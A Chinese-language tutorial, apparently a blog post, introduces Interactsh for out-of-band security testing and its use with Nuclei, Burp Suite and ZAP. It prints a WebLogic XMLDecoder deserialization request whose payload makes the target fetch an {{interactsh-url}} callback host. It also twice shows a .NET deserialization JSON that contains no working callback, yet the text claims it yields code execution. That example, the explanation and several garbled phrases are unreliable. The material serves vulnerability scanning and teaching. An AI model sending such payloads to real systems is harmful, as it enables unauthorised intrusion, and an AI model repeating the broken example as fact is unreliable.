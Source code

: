 # 使用 Interact.sh 进行带外测试 (OAST)

Interactsh是一个开源工具，用于检测带外交互。它专门设计用于发现那些会导致系统与外部产生联系的漏洞。在红队演练中，interactsh也是一个非常有价值的工具，安全专业人员可以利用它模拟真实的网络攻击，以识别目标组织安全防御中的弱点。

## 带外应用安全测试（OAST）与Interactsh

interactsh是一个基于云的平台，简化了OAST测试流程。它自动化了测试过程，节省了时间和资源，并提供了一个集中化的平台来管理和报告OAST测试结果。这使得识别和修复漏洞变得更加容易，从而确保应用程序的安全性。许多攻击者和漏洞赏金猎人现在都转向使用OAST方法来检测互联网应用程序和API中未知的安全问题。为了加强我们的安全检测能力，我们发现这些结束整合到我们的框架中是更适合的，以便更好地洞察应用程序级别的弱点。

例如，使用Interactsh，测试人员可以执行一个OAST负载（payload），这个负载以HTTP请求的形式发送，用于测试应用程序中是否存在反序列化漏洞。这个请求可能看起来像：

```html
POST /api/deserialize HTTP/1.1
Host: example.com
Content-Type: application/json

{“$type”:”System.Data.DataSet,System.Data”,”Tables”:[{“$type”:”System.Data.DataTable,System.Data”,”Rows”:[{“$type”:”System.Data.DataRow,System.Data”,”ItemArray”:[“Interact.sh”]}]}]}
```

这个请求发送到应用程序后，如果应用程序存在反序列化漏洞，攻击者就可以在服务器上执行来自Interactsh的代码。

## Nuclei 和 Interactsh 集成自动OOB测试

NUclei v2.3.6现在支持使用interact.sh API来实现基于OOB的漏洞扫描，并内置了自动请求关联功能。你只需在请求中的任意位置写上"{{interactsh-url}}"，并添加一个`interact_protocol` 的匹配器。Nuclei会自动关联交互到模板和生成请求，从而实现无缝的OOB扫描。

以下模板使用Interactsh的OOB服务器来检测WebLogic的反序列化漏洞。

```html
POST /wls-wsat/RegistrationRequesterPortType HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8,
Content-Type: text/xml;charset=UTF-8
Content-Length: 873

<soapenv:Envelope xmlns:soapenv=”http://schemas.xmlsoap.org/soap/envelope/”>
<soapenv:Header>
<work:WorkContext xmlns:work=”http://bea.com/2004/06/soap/workarea/">
<java version=”1.8" class=”java.beans.XMLDecoder”>
<void id=”url” class=”java.net.URL”>
<string>http://{{interactsh-url}}</string>
</void>
<void idref=”url”>
<void id=”stream” method =”openStream”/>
</void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![](../img/1_MI-dGzDVTd-a4lLNQb5LIw.webp)

## 另一个示例

测试人员可以发送一个包含OAST有效载荷的HTTP请求，来测试应用程序是否存在反序列化漏洞。这个请求可能看起来像这样：

```html
POST /api/deserialize HTTP/1.1
Host: example.com
Content-Type: application/json

{“$type”:”System.Data.DataSet,System.Data”,”Tables”:[{“$type”:”System.Data.DataTable,System.Data”,”Rows”:[{“$type”:”System.Data.DataRow,System.Data”,”ItemArray”:[“Interact.sh”]}]}]}
```

这个请求发送到应用程序后，如果应用程序存在反序列化漏洞，攻击者既可以在服务器上执行来自Interactsh的代码。

## Interactsh与流行扫描器的集成

- Burp Suite扩展——interactsh collaborator：这是一个Burp Suite的扩展，可以直接使用Interactsh。

- OWASP ZAP插件——OAST：OWASP ZAP通过OAST插件可以与Interactsh集成。利用ZAP的脚本功能，你可以创建强大的带外扫描规则，充分利用Interactsh的功能。
- Nulcei--OAST：Nuclei漏洞扫描器利用Interactsh自动生成有效载荷，检测基于带外的安全漏洞。

## 结论

带外应用程序安全测试（OAST）是全面应用程序安全策略中的一个关键组成部分。Interactsh简化了OAST测试过程，并未应用程序的安全态势提供了宝贵的洞见。重视应用城市徐安全的组织应该考虑使用Interactsh进行OAST测试。

